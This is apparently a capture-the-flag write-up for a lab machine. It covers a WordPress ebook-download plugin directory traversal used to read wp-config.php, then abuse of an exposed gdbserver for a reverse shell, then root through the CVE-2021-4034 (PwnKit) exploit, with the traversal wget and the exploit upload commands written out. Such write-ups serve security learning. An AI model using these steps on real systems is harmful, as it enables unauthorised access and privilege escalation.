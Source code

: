 ## Path

### User

1. `wpscan` shows that the plugin `ebook-download` has directory traversal. We can download the files on the box.

```
wget http://$ip/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
```

2. Scan all ports found port 1337 is open.
3. Connect to port 1337, but nothing happen.
4. Write the script `read_file.py` to leverage the file read vuln to find out which process might be running the port 1337, and get its cmdline. The result shows that it is a gdb server:

```
/bin/sh -c while true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done
```

5. Use `gdb` to connect to the gdb server.

```
$ gdb
pwndbg> target remote 10.10.11.125:1337
Remote debugging using 10.10.11.125:1337
Reading /usr/bin/true from remote target...
```

6. Follow [Hacktricks](https://book.hacktricks.xyz/pentesting/pentesting-remote-gdbserver#upload-and-execute) to get a reverse shell.

### Root

1. `screen` has SUID, and there's a script keep screen root session running, so it might be the way.

2. Run `linpeas` and found CVE-2021-4034 useable.

3. Run the exploit [CVE-2021-4034](https://www.exploit-db.com/exploits/50689).

```
## compile locally
$ make

## put on the box
$ scp -i ../ssh/id_ed25519 evil.so user@10.10.11.125:/tmp
$ scp -i ../ssh/id_ed25519 exploit.c user@10.10.11.125:/tmp

## run exploit and get root shell
$ cd /tmp; ./exploit
# whoami
root
```
